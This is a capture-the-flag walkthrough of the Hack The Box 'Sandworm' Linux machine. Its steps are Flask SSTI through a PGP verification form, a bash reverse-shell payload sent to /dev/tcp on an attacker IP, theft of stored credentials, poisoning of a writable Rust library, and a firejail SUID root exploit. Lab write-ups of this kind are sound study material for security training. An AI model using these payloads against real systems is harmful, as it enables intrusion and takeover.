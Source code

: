 # Sandworm

### Typology:

_Linux_

I add the domain name to the __"/etc/hosts"__:
```bash
echo "10.10.11.218	ssa.htb" >> /etc/hosts
```
We started by scanning the machine with rustscan:
```bash	
rustscan -a ssa.htb	
```
output:
```bash	
PORTS	PROTOCOL
22		ssh
80		http
443		https
```
I take a look at the web server on port 80, is a server of an agency for telecomunication that showcase the use of PGP (PRETTY GOOD PRIVACY) is a protocol for encryption and authority verification on the web 
and the darkweb.

we can scan what directory ny feroxbuster (keep in mind to set the -k flag for not veryfing certificate):
```bash	
feroxbuster -u http://ssa.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

200      GET       23l       44w      668c https://ssa.htb/static/scripts.js
302      GET        5l       22w      225c https://ssa.htb/view => https://ssa.htb/login?next=%2Fview
200      GET        6l      374w    21258c https://ssa.htb/static/popper.min.js
200      GET        1l       10w    41992c https://ssa.htb/static/favicon.ico
200      GET        7l     1031w    78130c https://ssa.htb/static/bootstrap.bundle.min.js
200      GET     1346l     6662w    63667c https://ssa.htb/static/bootstrap-icons.css
200      GET        3l     1297w    89477c https://ssa.htb/static/jquery.min.js
302      GET        5l       22w      227c https://ssa.htb/admin => https://ssa.htb/login?next=%2Fadmin
200      GET      304l     1591w   115308c https://ssa.htb/static/eagl2.png
200      GET       77l      554w     5584c https://ssa.htb/about
200      GET       69l      261w     3543c https://ssa.htb/contact
200      GET      155l      691w     9043c https://ssa.htb/guide/verify
200      GET      155l      691w     9043c https://ssa.htb/guide/encrypt
200      GET       54l       61w     3187c https://ssa.htb/pgp
200      GET      155l      691w     9043c https://ssa.htb/guide
200      GET     2019l    10020w    95610c https://ssa.htb/static/bootstrap-icons2.css
200      GET    12292l    23040w   222220c https://ssa.htb/static/styles.css
200      GET       83l      249w     4392c https://ssa.htb/login
200      GET    10161l    60431w  4580604c https://ssa.htb/static/circleLogo2.png
200      GET      124l      634w     8161c https://ssa.htb/
302      GET        5l       22w      229c https://ssa.htb/logout => https://ssa.htb/login?next=%2Flogout
```

The __"/pgp.html"__ directory we found there is an aerea where we can verify a message sent by us signed via PGP so i send a message in order to try

I generated the keys [here](https://pgpkeygen.com/)

When the key is verified the server print a popup with the information of our key then I tought that I could maybe inject code inside the popup.

The server is made in python flask as we reed on the bottom of the page, so maybe we can try a ssti vuln.

In the description field I tried a classic payload:
```	
{{7*7}}
```
output:
```	
{{49}}
```
good, the application is vulnerable to ssti

I go on by crafting the payload and start a listener on the background (I use pwncat):
```bash	
python3 -m pwncat -lp 4444
```
I tried this payload and worked for me:
```bash	
{{config.__class__.__init__.__globals__['os'].popen('bash -c "/bin/bash -i >& /dev/tcp/10.10.14.49/4444 0>&1"').read()}}
```
It works,is actually a terrible shell, but still RCE is it possible to "upgrade" it with the following command:
```bash
/bin/bash
```
Keep on with the enumeration, i have very little commands to run.

I start going around inside filesystem and i found something odd inside a directory:
```bash
cd /home/atlas/.config/httpie/sessions/localhost_5000/admin.json
```
inside it there is what we need, credentials:
```bash
username: silentobserver
password: [REDACTED]
```
so now we can log inside the actual machine and not the sandbox:
```bash	
python3 -m pwnca
connect ssh://silentobserver:[REDACTED]@ssa.htb:22
```
We're user; uploading linpeas via pwncat:
```	
Ctrl + D
Upload Pentest/linepeas.sh /home/silentobserver/linpeas.sh
Ctrl + D
bash /tmp/linpeas.sh
```
We found a strange process runned by root as atlas user:
```bash	
./tipnet
```
This process is a rust script that permit you to do an upstream but the odd part is the library that it loads are writable for us, in particular we can poison the lib.rs library to insert our rust revshell:
```rust	
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

[REDACTED]

    if output.status.success() {
	let stdout = String::from_utf8_lossy(&output.stdout);
	let stderr = String::from_utf8_lossy(&output.stderr);

	println!("standar output: {}", stdout);
	println!("error output: {}", stderr);
    } else {
	let stderr = String::from_utf8_lossy(&output.stderr);
	eprintln!("Error: {}", stderr);
    }

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
	Ok(file) => file,
	Err(e) => {
	    println!("Error opening log file: {}", e);
	    return;
	}
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
	println!("Error writing to log file: {}", e);
    }
}
```
so i upload the new- library via pwncat:
```bash	
Ctrl + d
upload Pentest/lib.rs lib.rs
Ctrl + d
```
listener:
```bash	
python3 -m pwncat -lp 4444
```
we're in as atlas; keep on enumerating with this next user:
```bash	
bash /tmp/linpeas.sh
```
Linpeas return something interesting: the firejail binary as the SUID bit set on.

I search online for SUID exploit for firejail and found [this](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25)

I upload the python script on the machine make it executable with:
```bash	
chmod +x exploit.py
```
and execute it:
```bash
python3 exploit.py
```
output:	
```
You can now run 'firejail --join=310279' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```
we need to create another shell session with the previuos exploit, once we got the second shell we can launch the command above:
```bash	
firejail --join=310279
su -
```
We're root and we can submit the final flag
